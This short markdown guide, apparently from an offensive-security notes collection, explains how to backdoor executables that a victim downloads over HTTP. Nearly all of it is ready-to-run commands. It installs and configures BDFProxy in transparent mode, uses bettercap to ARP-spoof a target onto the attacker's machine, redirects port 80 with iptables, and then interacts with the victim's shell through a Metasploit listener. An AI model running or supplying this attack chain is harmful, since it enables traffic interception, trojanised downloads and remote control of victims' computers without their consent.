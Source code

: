 # Backdoor exe on the fly

The method of the delivery method is to backdoor files that is downloading from a source to victim's machine. If hacker become man-in-the-middle, the victim downloads executable from a http site, hacker backdoors it. As target execute, the hacker got a shell

                 backdoored exe               original exe
     Victim <-------------------- Hacker <--------------------  Source

     Bkd client -------------> running server
	                 connect

Run:

    cd /opt
    git clone https://github.com/secretsquirrel/BDFProxy.git
    cd BDFProxy
    ./install.sh
    apt -y install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
    pip install capstone mitmproxy==0.13

Configure BDFProxy:

    cd /opt/BDFProxy
    vim bdfproxy.cfg

Change the following to: 
    
    proxyMode = transparent

Find config of each os:

    Host = <ip>

Execute bdfproxy.py

    python bdf_proxy.py

or

    ./bdf_proxy.py


Performing MITM attack:

    bettercap -iface <interface> -caplet <yourscript>

    net.probe                                    # probing net requests
    net.show                                     # show every host on LAN
    set arp.spoof.targets <target ip>            # Setting the victim
    set arp.spoof.fullduplex true                # Setting to spoof on two sides
    arp.spoof on                                 # enabling spoofing

Redirect received port to bdf_proxy.py:

    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

Running the listener:

    msfconsole --resource /opt/BDFproxy/bdfproxy_msf_resource.rc

    sessions -l            # list all active sessions
    sessions -i <id>       # Interact with a session with <id>

    sysinfo                # check system information
    help                   # show list of commands
